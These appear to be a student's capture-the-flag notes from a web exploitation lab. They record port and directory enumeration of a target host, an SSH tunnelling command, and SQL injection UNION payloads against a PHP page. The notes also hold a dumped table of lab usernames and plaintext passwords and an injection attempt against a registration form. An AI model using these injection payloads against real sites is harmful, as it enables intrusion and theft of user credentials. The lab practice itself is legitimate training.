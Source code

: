
                                                                                DAY 1 CTFD

Prior Approvals: Development of SSH access on host: Donovian_MI_websvr. Upon identification of additional Minstry web sites, student is authorized browse to pages to collect intellegence to enable answering CTFd challenges.

Scheme of Maneuver:
>Jump Box
-->T1:10.100.28.40

Target Section:

T1
Hostname: Donovian_MI_websvr
IP: 10.100.28.40
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
PSP: Unknown
Malware: Unknown
Action: Conduct approved Web Exploitation techniques to collect intellegence.
==========================================================================================================================================================



port discovery results
------------------------
10.100.28.40
PORT     STATE SERVICE
80/tcp   open  http
4444/tcp open  krb524
|_banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3



http-enum results
------------------
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'


robots script results
-------------------------
PORT   STATE SERVICE
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/net_test








robots.txt
------------
User-agent: *
Disallow: /net_test



STEPS: 
1. Run the enumeration scripts on 10.100.28.40
2. wget the index.html and robots.txt to find the user agent and directories of interest
3. open ports to access the 'net_test' hidden directory
    `ssh student@10.50.31.225 -L 11139:10.100.28.40:80`
    
    `firefox localhost:11139`
    
    

  
whoami: `  billybob:x:1001:1001:you found me 69rSYNfwil1S0HN0pzu2:/home/billybob:/bin/bash`



=====================================================================================================================================================================

                                                                        DAY 2 CTFD
                                                    
                                                   
categories union statement

http://localhost:11150/cases/productsCategory.php?category=1%20UNION%20select%20table_schema,table_name,column_name%20from%20information_schema.columns

to find the amount of columns in a SQL database
http://localhost:11150/cases/productsCategory.php?category=1%20or%201=1%20UNION%20select%201,2,3'

so in this case there is 3 columns



credit card number, budget page
--------------------------------
sqlinjection	payments	creditcard_number

sqlinjection	members	username

sqlinjection	members	password



credentuals


username | password | email
=--------------------------
Boss	SM1kbh7WDDtpfKE7tVVH	admin@website.com
Maverick	turn&burn	scientollogy4life@hotmail.com
phreak	pwd	incarcerated@yahoo.com
Susan	flowers99	susan.boyle@eHarmony.com
TW	imAPlaya	tiger@woods.com
1-2-3-4	sayULuvM3	cmnshkyrbdy@baby.org
rich_kid	1M$	mark@fb.com
p0pStar	thrilla	MJ@neverland.edu
Joe	vato	smarttest@plnitErth.gov
	flag:	87s2V }
  
  
  
  localhost:11150/cases/register.php?firstname=Hacker\' and lastname = 
  INSERT INTO members (first_name, last_name, username, password, email, permission) VALUES ('Hacker', 'balls', 'balls123', 'balls123', 'sadfasdfadf\', 3)   
                                                                        
                                                                        
